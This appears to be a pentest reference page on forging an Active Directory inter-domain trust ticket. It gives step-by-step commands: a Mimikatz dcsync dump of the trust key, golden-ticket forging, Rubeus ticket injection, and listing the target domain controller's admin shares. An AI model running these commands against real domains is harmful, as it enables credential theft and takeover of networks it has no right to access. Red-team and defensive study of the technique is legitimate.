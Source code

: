 # Forge Trust Ticket

> The domain Kerberos service account is used to sign and encrypt every authentication ticket (TGT). This enables the TGT to be used throughout the domain and presented to any DC in the domain. This works since the Kerberos service account ([KRBTGT](https://adsecurity.org/?p=483)) is effectively the trust anchor used for the domain and is why losing control of the KRBTGT account password hash equates to losing control of the domain.&#x20;

### Exploitation

1\.  The first step is to retrieve the trust key. This is achieved by dumping the domain controller with Mimikatz:

```bash
# Dumping the trust key with Mimikatz
lsadump::dcsync /user:$domain$
```

2\. We can then create the trust ticket using Mimikatz as well:

```bash
kerberos::golden /domain:$domain /sid:$domainsid /rc4:$krbtgthash /user:Administrator /service:krbtgt /target:$targetdomain /ticket:trust.kirbi
```

3\. After saving the ticket to a file we can use the created ticket to request a TGS for the targeted service, which in this case is going to be CIFS in the target domain using Rubeus.exe:

```bash
.\Rubeus.exe asktgs /ticket:trust.kirbi /service:cifs/$targetdomain /ptt /dc:$targetdc
```

4\. From using the `/ptt` argument with Rubeus, we have already injected the ticket into memory and should now be able to access the target domain controller. A trivial way to verify if this was successful is by listing the contents of the target domain controller:

```bash
# Confirm access with net use
net use \\$targetdc\admin$

# List the contents of the target domain controller
dir \\$targetdc\admin$
dir \\$targetdc\c$
```

### References

{% embed url="https://adsecurity.org/?p=1588" %}
